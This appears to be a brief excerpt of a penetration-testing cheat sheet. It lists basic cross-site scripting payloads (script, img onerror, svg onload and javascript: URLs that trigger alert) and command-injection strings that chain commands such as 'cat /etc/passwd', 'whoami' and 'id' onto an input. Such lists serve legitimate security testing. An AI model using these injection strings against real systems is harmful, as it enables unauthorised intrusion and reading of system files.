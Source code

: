 ### XSS Payloads
```html
<script>alert('XSS')</script>
<img src="x" onerror="alert('XSS')">
<svg onload="alert('XSS')">
javascript:alert('XSS')
```

### Command Injection Payloads
```bash
; cat /etc/passwd
| whoami
& ping -c 4 127.0.0.1
`id`
```

---

*Last Updated: September 28, 2024*
*Version: 1.0*